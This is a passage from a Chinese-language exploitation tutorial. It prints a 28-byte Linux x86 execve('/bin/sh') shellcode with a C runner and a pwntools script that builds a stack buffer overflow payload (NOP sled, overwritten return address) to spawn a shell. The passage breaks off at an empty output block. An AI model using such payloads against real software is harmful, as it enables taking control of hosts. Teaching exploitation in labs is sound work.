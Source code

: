 一般來說，我們注入 Shellcode 的攻擊，都是希望能夠拿到 Shell 取得主機的控制權限，這邊我們可以試著找到開啟 `sh` 的 Shellcode，可以到 https://shell-storm.org/ 中尋找合適的 Shellcode，下面為一個 Linux/x86 `execve(/bin/sh)` 的 Shellcode
```c
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}

```
以下為一個通過 Buffer overflow get shell 的範例 (上方為 python2 的寫法)
```py
# import struct
# padding ="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSS"
# ebp = "TTTT"
# eip = struct.pack("I", 0xffffcd20+150)
# shellcode = "\x90" * 150 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# payload = padding + ebp + eip + shellcode
# print payload
from pwn import *
padding =b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSS"
ebp = b"TTTT"
eip = p32(0xffffcd20+150)
shellcode = b"\x90" * 150 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = padding + ebp + eip + shellcode
with open('payload_shell', 'wb') as f:
    f.write(payload)
```
接著我們嘗試執行，會發現沒有發生任何事情
```shell
```